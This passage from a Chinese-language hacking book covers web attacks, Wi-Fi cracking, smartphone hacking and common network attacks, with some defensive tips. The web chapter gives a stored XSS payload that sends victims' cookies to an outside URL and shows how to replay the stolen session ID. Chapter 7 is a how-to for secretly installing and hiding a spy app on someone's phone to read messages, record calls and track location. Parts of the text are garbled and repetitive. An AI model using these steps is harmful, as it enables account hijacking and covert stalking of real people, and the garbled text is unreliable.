你会发现大多数 Web 应用程序都托管在公共服务器上，我们可以在需要时通过互联网访问它们。

它们在线的这一事实使得它们更容易受到攻击，因为它们太容易了。

许多用户喜欢这些工具的原因，也是导致它们容易受到黑客想要进行的某些攻击的原因。

在涉及这些 Web 应用程序时，我们需要警惕的一些不同攻击包括：

1. SQL 注入：

这种威胁的目标是帮助绕过某些登录算法，并破坏隐藏其中的数据。

2. 拒绝服务攻击 (DoS)：

这种攻击允许黑客进入系统并导致其崩溃，使得合法用户也无法访问网站。

3. 跨站脚本 (XSS)：

我们通过这种威胁发现的目标是获取一些代码并将其注入。然后，注入的代码将在客户端浏览器上执行。

4. 会话或 Cookie 投毒：

黑客来说，这种威胁的目标是修改某些 Cookie 或会话数据，以便获得未授权的访问权限。

5. 表单篡改：

这种威胁将尝试修改表单中的数据（例如电子商务网站的价格），以便攻击者以比应低的价格获取商品，而应用程序所有者对此不知情。

6. 代码注入：

这种威胁的目标是让黑客在我们工作的服务器上注入诸如 [Python](https://www.amazon.com/dp/B084MHS89) 或 PHP 等代码。

代码可以安装在计算机上，允许黑客创建后门或泄露网络中更敏感的信息。

7. 网页篡改：

最后，我们将处理网页篡改。

我们通过这种威胁看到的目标是黑客想要修改网站上显示的页面，并将所有请求重定向到一个仅包含黑客信息的页面。

## 如何保护你的网站

对你来说，能够保护你的网站免受此类攻击是非常重要的。

你不希望客户失去对网站的访问权限，或者所有的个人信息泄露给黑客并还要处理这些问题。

组织可以采取不同的方案并实施一些策略，以确保针对黑客和他们可能使用的攻击提供尽可能的保护。

首先，我们将查看如何处理 SQL 注入。

首先，我们希望在尝试将用户参数提交到数据库进行处理之前，对使用的参数进行验证和清理。

这将是减少网客通过 SQL 注入攻击你的概率的最佳方法之一。

有若干种数据库引擎可以使用，包括 [SQL](https://www.amazon.com/dp/B084M3FSW6) 等选项，它们将支持你使用参数和预编译语句。


这些（方法）将比一些被认为传统的 SQL 语句安全得多。这样，我们能够保护自己免受拒绝服务（DoS）攻击。良好的防火墙能够过滤掉一些看起来可疑的流量，并在黑客开始发送大量请求时对他们进行拦截。如果你对网络进行了正确的配置，并配合入侵检测系统工作，它将帮助你降低 DoS 攻击成功的概率。

列表中的下一个是跨站脚本攻击（XSS）。

为了帮助确保这不会成为一个问题，我们希望从对头部、通过 URL 的参数、表单参数以及一些隐藏值进行验证（validation）和清理（sanitizing）。这些都可以帮助我们减少 XSS 攻击。

我们还必须小心发生的会话（session）或 Cookie 毒化（cookie poisoning）。但通过加密 Cookie 的内容、让 Cookie 在一段时间后不再可用（设置超时）、甚至在创建 Cookie 时将其与用户所处的 IP 地址关联起来，就可以防止其中一些问题。

如果你在网络上发现了某种表单，并想允许用户访问你，那么我们想要确保避免“表单篡改”（form tempering）的情况。我们在处理用户输入之前，对其进行验证和核实，就可以防止这种现象。

然后是代码注入（code injection）。当我们把要使用数据的所有参数视为数据，而不是视为处理过程中可以执行的代码时，就可以防止这种攻击。另一种选择是确保我们进行清理和验证工作。最后，对于网页篡改（defacement），我们还可以做一些事情。良好的 Web 应用程序的安全策略及其开发工作应该确保能够封堵访问你目标 Web 服务器最常用的漏洞。这可能简单到确保操作系统配置正确、软件准备就绪，并且在开始构建 Web 应用程序时遵循最佳实践。## 如何破解网站

现在我们已经进展到了这一步，是时候去破解一个我们想要操作的网站了。在这种情况下，我们将花一点时间来劫持 Web 应用程序的用户会话，我们将使用的那个可以在 [www.techipanda.org](http://www.techipanda.org)找到。我们将利用跨站脚本攻击来读取 Cookie，然后利用它帮助我们冒充另一个被视为合法的用户。这里的假设是攻击者从一开始就能访问该 Web 应用程序。这种攻击的目标是获取管理员 Web 应用程序的权限，假设黑客的权限是有限的。这个过程很容易操作，但有几点我们需要记住以确保其完成。首先，我们需要打开名为 [`www.techipanda.org/`](http://www.techipanda.org/) 的网站。为了此目的，建议我们在 SQL 注入的帮助下进入它。我们将使用的登录邮箱是 `admin@google.com`(mailto:admin@google.com)，我们在这里使用的密码将是 `Password2010`。如果你已经以正确的方式进入该网站，将会看到一个漂亮的仪表板。在仪表板内部，点击“添加新联系人”（Add New Contact）部分，然后输入以下代码来帮助我们添加想要的名字：

```html
<a href="#" onclick="document.location='http://techipanda.org/snatch_sess_id.php?c='+escape(document.cookie);">Dark</a>
```

这个代码将通过 `JavaScript` 语言快速运行，如果你想了解更多关于它的知识。它还会为我们添加一个带有 `onclick` 事件的超链接。当那个对发生的事情毫无起疑的用户点击链接时，设置的事件将抓取 `PHP` Cookie 会话 ID，并将带有会话 ID 的页面发送给用户。继续填写表单，输入剩余细节以按照我们想要的方式实现此目标。你可以根据想要完成的攻击效果添加真实信息或虚假信息。当所有部分完成后，你可以点击“保存更改”（Save Changes）以确保其整洁并就绪。仪表板将显示所有内容已填写完毕。

由于我们已经完成了将跨站脚本代码存储在数据库中的步骤，每当用户尝试登录时它都会加载。假设管理员登录并点击列出的 Dark 的超链接。该用户将获得一个带有会话 ID 的窗口，窗口将显示我们之前插入的 URL。需要注意的是，我们创建的脚本可能会将值发送到存储 `PHPSESSID` 的远程服务器，然后用户将被重定向回网站，就像什么都没有发生过一样。执行此操作时，在某些浏览器中得到的值可能与你认为的不同，但原理是相同的。

然后我们可以通过声称自己是 Firefox 搜索引擎来下载一个 `tamper` 插件。你首先需要让电脑的 Web 浏览器设置好，请确保你已经执行了这一点。然后双检查 `Tamper Data` 插件是否存在。当所有这些设置好并准备就绪后，你可以打开 Firefox 并安装该插件。这只需要你搜索 `Tamper Data` 部分，然后点击旁边的安装按钮。此时，我们将看到一个弹出的对话框，然后点击“接受并安装”（Accept and Install）按钮。现在，安装完成后，我们需要点击“立即重启”（Restart Now）按钮。如果 Firefox 的菜单栏没有显示在屏幕上，请启用它。然后点击“工具”（tools）菜单，如果安装按我们想要的方式运行，你应该可以选择 `Tamper Data` 来开始。你的屏幕上会弹出一个窗口。这个弹出窗口将为我们提供三个我们可以关注的选项。


`Tamper`（篡改）选项是最好的工作项，因为它负责帮助你修改 HTTP 头部信息，并确保它在提交到服务器之前符合你预期的状态。

确保点击此选项，然后等待窗口出现。

在这个新新窗口中，你应该可以看到一个可以获取的 PHP 会话 ID（session ID）。

你需要复制我们随攻击 URL 传回的 ID，然后将其直接粘贴在等号后面即可。

通过这个我们能够获得的值将在下方。

`PHPSESSID=2DVLTIPP2N8LDBN11B2RA76LM2`

然后你可以点击 OK 按钮，你应该会再次看到显示 Tamper 数据的弹出窗口。当勾选框询问你是否想要继续篡改（Continue Tampering）时，请取消勾选。完成后，你可以点击提交（submit）按钮。你应该就能跳转到仪表板，这将帮助我们完成所有操作。

关于这一点需要注意的是的是，我们没有经过登录过程，相反，我们通过我们一直操作的流程获取了 `PHPSESSID` 值来伪造登录会话。这就是运行此操作的全部！

为了帮助我们快速通过并真正看到我们所的工作，请记住 Web 应用程序是基于服务器-客户端模型的。客户端将使用自己的网络浏览器来访问服务器上的某些资源。Web 应用程序是我们可以通过互联网访问的内容。这使得它们更容易受到黑客想要进行的某些攻击。

对于你的网站，有很多应用程序威胁，我们需要注意的某些威胁包括 Cookie 投毒（cookie poisoning）、页面网改（defacement）、`XSS` 以及 SQL 注入。这些是能够访问你网站的攻击方式，这将确保你的网站保持安全。

# 第 6 章：无线网络


无线网络有很多益处，让我们在旅行时能够连接。然而，需要注意的是，我们使用的无线网络在某些程度上是脆弱的。特别是那些在公共场所使用的无线网络更容易被黑客利用。

在无线网络中，数据通过电磁波发送到路由器，这使得黑客可以尝试截并这些数据。在无线网络中，数据通过电磁波发送到路由器，这使得黑客可以尝试截并这些数据。由于无线网络中的加密数据被黑客可以破解。在公共场所，尤其是那些使用未加密的 WiFi 协议，黑客可以可以进行攻击。

无线网络中的加密数据被黑客可以破解。在公共场所，尤其是那些使用未加密的 WiFi 协议，黑客可以可以进行攻击。

为了确保数据安全，无线网络使用了不同的加密协议。其中最常见的一种是 WEP（等效加密）。

## 什么是无线网络？

无线网络是允许我们在不需要物理连接线的情况下连接设备。这在现代生活中、在机场、咖啡馆等公共场所非常方便。

无线网络使用 `RC4` 加密算法。流密码的输入是由初始化向量（IV）和密钥组成的。这种加密方式的目标是保护通过无线电波传输的数据。WEP 的全称是等效加密，它的目的是保护在无线网络中传输的加密数据。

另一个问题是，WEP 使用 `RC4` 加密算法来帮助生成流密码。流密码的输入是由初始化向量（IV）和密钥组成的。我们看到的初始化向量长度为 `24` 位，而密钥长度为 `40` 位或 104` 位。这意味着这两者的总长度将是 `64` 位或 `128` 位。密钥的较低可能值使其破解变得比我们预期的容易得多。

## WEP

现在，我们需要查看 WEP 的认证机制。WEP 提供了几种认证方式。

首先，WEP 认证支持 `OSA`（开放系统认证），这是一种根据配置访问策略授予访问的方法。此外还有 `SKA`（共享密钥认证），这种方法会向尝试访问的站点发送加密挑战。站点使用其密钥加密挑战。如果加密后的挑战与 `AP` 值匹配，你将获得访问权限。

虽然这是早期帮助无线网络的系统之一，但存在一些巨大的设计缺陷和漏洞。这也是后来发布其他协议的主要原因之一。首先，我们需要查看数据包的完整性以及它们是如何使用循环冗余校验（`CRC32`）进行检查的。这种完整性检查当黑客能够捕获至少两个数据包时就会被破坏。加密流中显示的位和校验和可以被感兴趣的黑客修改，然后数据包实际上会被认证系统接受。当黑客成功时，这将导致对网络的未经授权访问。

另一个问题是，WEP 的初始化向量（IV）太短，这会导致 IV 在网络中频繁重复。黑客可以通过分析这些重复的 IV 来破解出密钥。


除了这些问题外，我们发现较弱的初始值以及随之而来的组合完全无法为我们提供足够的加密。

这将使得黑客更容易攻击，并使整体攻击变得非常容易。`WEP` 同样基于密码的使用，这使得它更容易受到字典类型攻击的影响。

这类系统上的密钥管理实现得并不好。更换密钥，特别是当我们谈论大型网络时，将是一个巨大的挑战。

而且 `WEP` 完全没有为我们提供中心化的密钥管理系统。由于初始值可以被多次使用，这使得黑客更容易获取他们想要的信息。

由于由于一些主要的安全漏洞，以及专业黑客能够轻而易举地攻破这些防御的事实，大多数人不再使用 `WEP` 选项。相反，大多数人已经转而使用 `WPA` 协议。

## WPA

我们可以关注的另一个选项是 `WPA`。它是 `Wi-Fi Protected Access`（无线局域保护）的缩写。

这是一种与你需要的某些选项相比要安全得多的安全协议，它最初是由 `Wi-Fi Alliance` 为了应对 `WEP` 中发现的缺陷而开发的。

它被用于加密我们通过 `802.11` WLAN 传输的数据。它使用的初始值更高，为 `48` 位，而不是我们之前在 `WEP` 中看到的 `24` 位。它还将使用一些临时密钥来帮助我们加密数据包。

这是为了帮助对抗之前在 `WEP` 中发现的一些缺陷而提供的协议。它添加了一些重要的功能，以确保你能够处理所工作的安全性。

然而，你会发现根据你的使用方法，它也会存在一些漏洞。这意味着即使它是一个更安全的选项，你在在线时也仍需要小心并采取正确的预防措施。`WPA` 会伴随着一些问题，我们需要对其加小心。

当你涉及到这个问题时，你会看到的一些弱点包括：

1. 冲突规避实现可能存在我们能够突破的可能性。
2. 如果你不添加必要的防火墙，它更容易受到某些拒绝服务攻击。
3. 它会预共享用于短语的密钥。当我们谈论字典攻击时，弱的短语会非常脆弱。

## 如何破解无线网络

现在，是时候查看如何破解无线网络了。首先，我们将从 `WEP` 破解开始。

请记住，破解是利用无线网络中的某些安全漏洞并借此获得对系统未经授权访问的过程。`WEP` 破解指的是对使用 `WEP` 实现我们所需的安全控制的网络进行利用。

我们开始 `WEP` 破解时可以使用两种主要的破解类型包括：

1. **被动破解（Passive cracking）**：这种破解在 `WEP` 安全被破解之前，对网络流量不会产生任何影响。因为黑客只是坐在那里观察信息，处理起来会更加困难。
2. **主动破解（Active cracking）**：这是一种造成更大损害的攻击类型，会对网络流量产生增加负载的影响。与被动破解相比，它更容易被发现，并允许我们真正完成想要的工作并对目标系统造成破坏。

好消息是，在破解 `WEP` 网络时，有很多不同的破解工具可以使用。我们可以使用诸如 `Aircrack` 这样的选项，它是一个 `WEP` 破解器和网络嗅探器；或者 `WebDecrypt`，这是一个可以使用字典攻击的工具，希望通过并破解 `WEP` 密钥。

这里需要考虑的另一点是，破解 `WPA` 选项也是可能的。虽然这些比我们常见的某些 `WEP` 选项更安全，但我们必须记住，如果我们不留心，黑客也能攻破它们。

`WPA` 使用 `256` 位预共享密钥或短语来帮助身份验证。较短的短语更容易受到此类字典攻击以及其他帮助破解密码的攻击。

我们有几个选项可以帮助我们破解 `WPA` 密钥，包括：

1. **CowPatty**：这是一个我们可以利用它通过暴力破解攻击来破解某些预共享密钥的工具。
2. **Cain and Abel**：这是一个工具，帮助我们分析通过其他嗅探程序（包括 `Wireshark`）捕获的文件。捕获的文件可能包括编码的 `WEP` 或 `WPA-PSK` 帧。

还有几种相当通用的攻击类型，黑客可以在各种系统上执行这些攻击。其中一些包括：

1. **嗅探（Sniffing）**：这种攻击涉及黑客在数据包通过网络传输时对其进行拦截。捕获的数据将使用许多不同的黑客工具进行解码。
2. **中间人攻击（Man in the middle attack）**：这是黑客可以使用的一种攻击类型，涉及对网络进行某些窃听，以获取他们想要的某些敏感信息。
3. **拒绝服务攻击（Denial of service attack）**：这种攻击的主要意图是拒绝合法用户获取他们所需的网络资源。

## 如何破解无线网络 WEP 和 WPA 密钥

我们也可以破解 `WEP` 和 `WPA` 网络的密钥以获得我们想要的访问权限。这样做需要三个主要要素，包括耐心、正确的硬件资源以及一些良好的软件。

我们在某些攻击中看到的成功还取决于取决于目标网络上用户的活跃程度。我们将快速查看一下启动此项工作所需的一些基本信息。我们将使用 `Backtrack` 来实现这一点。

`Backtrack` 作为一个基于 `Linux` 系统的安全操作系统是非常用的。它是为了在 `Ubuntu` 之上运行而开发的，并带有我们需要的许多安全工具。此外，该工具用于收集我们想要的信息、评估某些漏洞，并执行使这一切攻击发生所需的利用程序。

在我们使用 `backtrack` 工具时，会有许多流行的选项。例如，你可能会看到如 `Ophcrack`、`Nmap`、`Aircrack-ng`、`Wireshark` 和 `Metasploit` 等工具。至少，我们需要之前提到过的一些工具。

首先，我们需要谈论无线网络的适配器。我们想要确保该适配器具有通过并注入我们想要的数据包的能力。


接下来，我们将使用 Kali 操作系统工作。

当需要入侵网络并使其符合我们的需求时，这是最好的选择之一。

然后，我们需要确保自己处于目标网络的覆盖范围之内。

如果此类网络上的用户是活跃的，并且他们正在使用并连接到该网络，这将增加我们实际上能够破解该网络的几率。

由于我们要使用 Kali 操作系统，我们还需要对如何处理这种操作系统有深入的了解。

此外，还需要了解一些如何使用 `Aircrack` 来协助这项工作。

然后，我们需要确保自己拥有耐心。即使你使用了本章中提到的一些工具，这也不会是一个瞬间就能完成的过程。

有一些我们无法控制的因素会真的对进行黑客攻击造成一些问题。这可能意味着目标网络处于活跃状态，并正试图嗅探你尝试发送出去的数据包。但只要你有耐心，你就能进入网络并获取你想要的信息。

## 如何保护你的无线网络

无论你是个人还是想要尽可能让信息安全的大型企业，听到某人可能进入你的网络、窃取信息并随心所欲行事，这都不是你想要想要听到的消息。

你希望确保你的信息尽可能安全，确保黑客无法进入网络并制造问题以及窃取你的个人和财务信息。

好消息是，我们可以采取几个步骤来最大限度地减少我们在无线网络上可能看到的攻击。我们能够采用的以保持网络尽可能安全可靠的某些策略包括：

1. 当你获取新的硬件并添加到网络中时，你需要确保将它们自带的默认密码更改为更难使用且不易被猜的密码。
2. 你需要确保你的设备上启用了身份验证机制。
3. 你应该确保网络仅允许预先注册的 `MAC` 地址访问。这将使黑客更难进入并制造他们想要引起的问题。
4. 你应该使用强力的 `WEP` 和 `WPA-PSK` 密钥及其组合，使其更难破解。你应该使用字符、数字和符号的独特组合，以便让黑客难以通过暴力破解或字典攻击来破解。
5. 你还应该考虑在网络上使用防火墙。这将确保黑客无法未经授权访问网络，并可以增加其进入网络的难度。

## 如何破解无线密码

接下来的的工作是如何破解无线网络。我们将花费一些时间来破解无线密码。

在这种场景下，我们将使用 `Cain and Abel` 设备来帮助我们解码 Windows 中找到的一些存储无线网络密码。我们还将查看一些在破解无线网络所需密钥时可以使用的信息，无论我们谈论的是 `WPA` 还是 `WEP`。

我们首先想要查看的是如何解码存储在 Windows 中的无线网络密码。要开始这样做，我们需要能够从主页上的链接下载 `Cain and Abel`。然后我们就可以打开这个程序。

在程序内部，我们要确保完全选中了 `decoders` 标签页，然后我们可以从导航菜单中点击 `Wireless Passwords`。我们应该能在屏幕左侧找到所有这些。然后点击带有加号的按钮。

我们在这里假设我们已经连接到了一个安全的无线网络。如果是这样，我们将按照你需要的方式获得信息和密钥的解码结果。在此过程中，解码器将向我们显示加密类型、`SSID` 以及与之使用的密码。

为了帮助复习，我们必须记住我们使用的无线网络基本上是外部人员也能看到的传输波，如果我们不小心，这将带来很多安全风险。我们可以处理的安全协议有两种类型，包括 `WEP` 和 `WPA`。

`WEP` 代表 `Wired Equivalent Privacy`（有线等效隐私）。它是我们能够处理的早期选项之一，并且有很多安全漏洞。与现有的其他安全实现相比，这使得它容易破解得多。

然后我们可以处理 `WPA`，它是 `Wi-Fi Protected Access`（Wi-Fi 保护访问）的缩写。它比过去的 `WEP` 安全一点，但我们仍然需要采取预防措施，确保黑客无法进入系统。重要的是，我们要使用强密码，确保没有人在未经许可的情况下进入我们的网络，并且不要尝试连接像机场或餐厅那样的开放网络，以保持我们的信息尽可能安全。

黑客知道，当他们能够突破某些网络时，对他们来说，真正看到某些结果并在过程中窃取你想要的信息要容易得多。当你遵循本章中提到的步骤操作时，你会发现你的个人和业务无线网络将保持尽可能安全。

# 第 7 章：入侵智能手机


我们需要考虑的另一个选项是关于如何进入智能手机并制造问题的一些基础知识。黑客喜欢进入这类手机。我们在这些设备上存储了大量的个人信息，访问一些喜爱的网站，甚至进行一些银行操作，并发送大量的电子邮件。

尽管我们经常在这些手机上存储更多的个人信息，并且使用频率比普通笔记本电脑更高，但很多时候，我们并没有为这些设备添加与其它选项相同的安全防护。这意味着尽管所有内容都存储在我们的手机中，但所有的个人和财务信息对于黑客访问来说都是完全开放的。这将使我们难以像希望的那样保护自己的身份和财务安全。这就是为什么我们需要花时间学习更多如何入侵智能手机或其他移动设备来满足我们的需求。

## 了解目标设备

处理这些移动设备主要有两种分类，而且它们的范围非常广。这两类分类包括 `iOS` 和 `Android` 设备。它可以是平板电脑也可以是智能手机。

实际上，`Android` 用户比 `iOS` 用户多，主要原因是对于你看到的 `iOS` 设备以及你对其进行的操作会有一些限制。最大的障碍之一是 `iOS` 设备自带的非越狱版本。这意味着我们需要一些可以在操作系统权限下运行的特殊应用程序。


但对于 Android 设备，你需要通过检查并手动安装此应用。然后，为了使用它，你只需要进入并拥有目标的 iCloud 凭据。

你对移动设备自带的主要设备了解越多，对你来说就越有利。

你会发现，这将帮助你找到最适合攻击的漏洞，并让你在黑客攻击时更容易完成并实现你想要的某些结果。

## 访问黑客应用网站并订阅

一旦你知道了所需的各种应用程序的版本，你就必须对它们进行订阅。

这个过程很容易处理，我们只需点击 `Buy` 按钮，选择你想要购买的相应版本，然后结账并等待电子邮件。

如果你在开始这项新订阅之前有任何疑虑，可以联系一直为我们服务的客服。你可以在开始之前对你的某些疑虑进行讨论。

如果你想在订阅完成后获得有关说明和后续协助方面的帮助，他们也可以提供帮助。

## 按照信息开始

一旦你完成并决定订阅，你就可以查看收件箱中出现的邮件。这封邮件将在我们准备好时提供一个下载应用程序的链接。

当需要进行手动安装时，你只需要将此链接复制到目标 Android 设备或越狱设备的浏览器中，然后点击“go”。这将允许你开始下载。

请注意，这是一个相当快的下载，但取决于网络连接特别是你所操作的设备，大约需要两分钟。

一旦你检查并完成了这一步，你就必须运行设置。这也会需要几分钟，但这是激活的最后阶段。

这意味着你需要大约五到十分钟的时间让设备上拥有这个下载链接。这时间并不长，但请记住，如果对方怀疑他们的手机有问题，他们就会发现你，你将无法继续执行你的计划。找一个对方（即你的目标）不会注意到发生了什么的时间来此操作。

## 激活并隐藏应用

记住，在这个过程中，我们处理的是一个黑客应用。如果我们将其添加到目标的手机并命名为 `Hacking App` 之类的名称，并将其直接放在他们手机的主屏幕上，那么他们很可能不会点击它，这样你根本无法处理你想要的攻击。

这意味着我们不仅需要完成刚才在对方手机上激活应用的过程，还需要执行隐藏它并使其对目标而言变得不那么显眼的步骤，以确保他们不会产生怀疑。

你之前收到的邮件还包含一个你可以使用的漂亮激活码。当移动设备要求时，你可以输入该代码。最后一步是在手动安装全部完成后，勾选隐藏应用的选项。

当我们需要帮助并对该过程有疑问时，有很多教程可以供我们参考，如果在过程中遇到任何困难，我们可以查看它们。

## 访问控制面板上的功能

现在，我们想要进入并访问这里的控制面板。当我们访问它时，可以再次查看原始邮件，查看是否有通往控制面板的链接。你只需将链接粘贴到浏览器中跳转即可。

你需要输入一些登录凭据并进入仪表板。

如果你订阅了多个移动设备，你将在主窗口中看到列出的设备。你可以选择想要监控的设备。然后你可以进入带有你想要监控的相关数据的仪表板。

一旦你完成了这些步骤并成功完成了激活应用时的安装，现在就可以在你任何需要的时间从目标设备上获取信息了。例如，如果你这样设置，现在就可以访问目标设备上的传入和传短信。

你甚至可以对应用进行一些更改并根据自己的偏好进行配置，但这也将为你提供监控某些单词的能力。通过此特定功能，每当目标设备的 `SMS` 包含你寻找的特定单词时，你就会开始收到警报。

此功能还将扩展到收发出的电子邮件上，如果你愿意，甚至可以获得访问目标联系人的权限。你将看到电话簿中的所有联系人和该手机上的电子邮件地址，并如果你愿意，可以将它们添加到你的监控列表中。

请记住，如果你监控了联系人，无论你是选择监控所有联系人，还是只想监控几个对你来说最重要的，每当目标与这些人联系时，你最终都会收到警报。这就是为什么我们最好是选出与我们想要实现的目标最相关的联系人，否则，我们将面临大量需要筛选的消息和通知。我们处理过的这个黑客应用在整个过程中为我们提供了许多很酷的功能。首先，它将让我们能够访问浏览器历史和所有书签，录制通话、录制周围的一些环境，并访问视频和照片。

如果你想要跟踪目标及其在不同时间所处的位置选项，我们也可以添加一个 `GPS` 跟踪器并查看他们在哪里。你可以访问日历条目、截屏、查看已安装的应用列表，甚至阻止它们。这一切都可以通过我们已经介绍过的简单应用来完成。而且这将在目标完全不知道手机发生了什么、或者完全不怀疑任何事情的情况下完成。如果你有足够的编程经验来完成，这甚至可以为你提供远程锁定设备并擦除数据的选项。

 如何保持我的设备安全

正如我们所看到的，当黑客准备好进入你的手机并引发问题时，他们可以做很多事情。如果你用移动设备存储大量的个人和财务信息，那么对你花时间学习如何保护你的设备是非常重要的。

好消息是，如果你小心并真正保护你的设备，我们可以采取几个步骤来确保黑客完全无法进入。

首先，我们需要确保在不使用设备时将其处于锁定状态。只需要花几分钟设置好手机，把它放在桌子上，然后它就没了，黑客可以按照他们想要的方式使用它。即使是几秒钟，对于黑客添加一个应用或其他赋予他们想要控制权的东西也足够了。


当然，黑客能够使用其他手段，但锁定设备并确保它受到密码（甚至可能是面部识别软件）的保护，可以增加黑客进入你手机的难度。

另一个选项（特别是如果你在手机上存储了大量个人信息）是添加一些安全软件。

如果真的有人拿走了你的移动设备，对于高明的黑客来说，访问你所有数据并不会花费长时间，即使手机处于锁定状态且本应该是安全的。

然后，黑客可以将该设备连接到普通电脑上，并从那里尝试进入内部。

这就是为什么需要在你的移动设备上也添加一些强大的安全软件的原因。

除了普通的反恶意软件、反病毒软件以及一些邮件加密软件外，你还需要安装或使用已安装的提供对平板电脑或手机远程控制功能的软件。

这些程序将非常有用，因为它们允许我们通过 `GPS` 功能追踪设备，并能允许我们从远处将其锁定或关机。这会让黑客获取那些信息变得困难得多。

如果你丢失了移动设备，或者发现他人翻动过并偷走了它，这些措施将确保你的个人和敏感信息是安全的，你可能在以后还可以恢复它们。

此外，对 `Bluetooth` 和 `Wi-Fi` 保持谨慎始终是重要的。

这是一个需要重点关注的问题。

当然，当你想要发送一封带有大附件的邮件而不想耗尽所有数据流量额时，使用免费的 `Wi-Fi` 是很不错的。

但如果你在公共网络上进行操作，你很可能会暴露在许多不必要的之中。

当你决定在移动设备上开启 `Bluetooth` 时，也会发生类似的情况。

虽然这不像使用不安全的 `Wi-Fi` 那么危险，因为它的范围很小，大约 10 米，除非你是在交通工具中通话之类的，否则你不应该在上面花费大量时间。

将关闭它们养成一个大习惯是一个好主意。

如果你想让这变得简单一点，也可以直接将手机切换到 `airplane mode`（飞行模式）。

这将让你更容易在所访问的公共场所可能存在的黑客面前保持隐形。

列表上的下一项是加密软件。

这一直是帮助你保持数据安全可靠的绝佳方法。定期备份数据也是一个好主意。

此外，如果你从设备中移除数据并跟踪设备进行备份，在过程中可能还需要配合一些额外的加密软件。

不过，并不是许多人会在他们的移动设备上这样做，这为许多黑客提供了绝佳的机会。

正因如此，我们需要确保不仅依赖于我们的加密邮件提供商，还要配合加密应用程序来让一切更安全。

这些服务将保护你存储在手机上的某些敏感文件，以及账号和你想使用的密码等内容。

我们最后需要花时间关注的是多留意我们下载的 App，无论它们是免费的还是付费的。

我们已经非常习惯在移动设备上下载 App 使用。

其中一些是好玩的游戏，另一些是通信和类类 App，我们直接下载，而没有真正考虑过它们是否安全可用。

我们通常会假设商店商店找到的 App（特别是如果是 `Android` 或 `Apple` 商店的话）是安全的，我们可以使用它们。

然而，如果你真的想确保你的手机使用安全，并且你的信息不会被盗取或被用来对付你，那么你需要双检查任何想要使用的 App。

进入你手机上的设置，关闭可能危及移动设备安全的跟踪器和访问权限。始终双检查你想要使用的 App，并确保该 App 对你来说是安全的。

今天有许多人使用许多移动设备，他们通常会将这些变成生命线，让他们将许多个人和财务信息握在掌心。

这看起来是一个很棒的主意，但如果我们对这些移动设备的安全不小心，黑客就能利用这一点并尝试获取他们想要的信息。

使用我们在本指南中提到的某些步骤，将帮助我们应对那些正在发生的试图获取我们信息的黑客。

你越能为手机添加更多的安全防护，我们处理这些攻击就越容易，并能确保我们的信息在此过程中保持安全。

# 第 8 章：我们需要注意的其它常见攻击


我们已经花了大量时间查看了黑客尝试用来进入你网络的一些大型攻击。但这些绝对不是黑客会使用的唯一手段。

相反，我们将花时间查看黑客可能尝试使用的其他攻击。

这里的要点是记住，任何人都可能成为黑客的受害者，无论他们在网络中拥有什么类型的信息。更多地了解这些攻击将让我们更容易保持警惕，确保黑客无法利用我们和计算机。

在涉及黑客行为时，我们仍然需要探索的一些不同攻击包括：

## 拒绝服务攻击

我们要查看的第一种攻击是拒绝服务，即 `DoS`，或分布式拒绝服务攻击，即 `DDoS`。

这两者都达到相同的目标，但在实现该目标时使用的方法略有不同。

首先，我们将探索 `DoS` 攻击。

这种攻击能够使系统资源过载，使其无法响应服务器的请求。

然后我们可以进一步研究 `DDoS` 攻击。

这种攻击也会接管系统的资源，但它是从许多机器发起的，而不是仅仅从一台发起，因此很难找出它到底源自哪里，也很难停止。

与现有的某些设计用于让攻击者获得或增加其对系统访问权限的攻击不同，这些攻击不会给攻击者带来直接利益。

对于其中的某些人来说，仅仅拒绝为公司提供服务就足够了。

然而，如果资源属于行业内的竞争对手之类，那么对黑客来说的利益可能是真实的。我们还可以获得其他利益。

这种攻击的另一个益处或目的是，它能够让业务系统离线，以便黑客可以进来并在无人知情的情况下发起另一种攻击。

例如，黑客可以使用这种方法配合被称为 `session hijacking`（会话劫持）的攻击。

## 中人攻击

黑客可能决定对你进行的另一种攻击是中间人攻击（Man in the Middle Attack）。


这是一种攻击类型，黑客会尝试插入到服务器与客户端之间发生的通信中。我们能够处理的此类攻击有很多种，包括：

### 会话劫持 (Session Hijacking)

在此类攻击中，黑客将努力劫持受信任客户端与网络服务器之间的会话。攻击计算机将接入并用其 IP 地址替换某个受信任客户端的地址，然后服务器将继续该会话，因为它在最初相信它实际上是在与客户端通信。

例如，我们将看到的会话劫持步骤包括：
1. 客户端首先连接到服务器。
2. 随后，黑客可以使用他们的计算机在准备好时控制客户端。
3. 黑客计算机将断开客户端，使其不再与服务器连接。
4. 然后，黑客计算机将替换客户端的 IP 地址，以便输入自己的 IP 地址并伪造客户端的序列号。
5. 黑客计算机随后能够继续与服务器对话。在此过程中，如果黑客操作得当，服务器仍然会认为它正在与客户端通信。

### IP 欺骗 (IP Spoofing)

另一种方案被称为欺骗。黑客将利用此手段来说服系统它正在与一个已知且受信任的实体通信，从而允许黑客在他们想要时访问系统。黑客将发送带有已知受信任源的 IP 源地址的数据包，而不是在目标主机上使用自己的 IP 地址。这种方法希望目标主机能够接受黑客发送的数据包，并以正确的方式采取行动。

### 重放攻击 (Replay)

另一种方案是重放攻击。这发生在攻击者能够拦截并保存一些捕获到的旧消息，然后在稍后尝试重新发送这些消息。他们还会尝试冒充其中一个参与者。这种类型可以通过会话时间戳或使用随机数（nonce）来轻松反制，随机数仅仅是一个随时间变化的随机字符串或数字。

基本上，这些中间人攻击（man in the middle）会让黑客插到用户与其通信的另一个服务器之间。有时，黑客只是查看这些信息并决定如何处理它们。而在另一些时候，黑客会尝试修改消息以获取自身利益。

### 网络钓鱼与定向鱼叉式网络钓鱼攻击 (Phishing and Spear Phishing Attacks)

黑客可能会利用网络钓鱼或鱼叉式网络钓鱼攻击。这种做法是黑客发送一封看起来来自我们能够信任的源的电子邮件，其目标是获取个人信息，或利用这种影响和信任让用户做你想要做的事。

网络钓鱼结合了几种手段，包括技术欺骗和社会社会工程学。它还可能涉及邮件中的附件，当你点击它时，它会在你的计算机上加载某些恶意软件。或者，它内部可能包含一个链接，将你重定向到一个非法网站，诱骗你在不知情的情况下下载某些恶意软件或交出个人信息。

与之伴随的另一种方案被称为鱼叉式网络钓鱼（spear phishing）。这类似于网络钓鱼，但更具针对性。黑客会花费更多时间对目标进行研究，并创建具有个性化且相关的消息。由于这些研究等原因，鱼叉式网络钓鱼要难识别得多，我们防范它也更加困难。

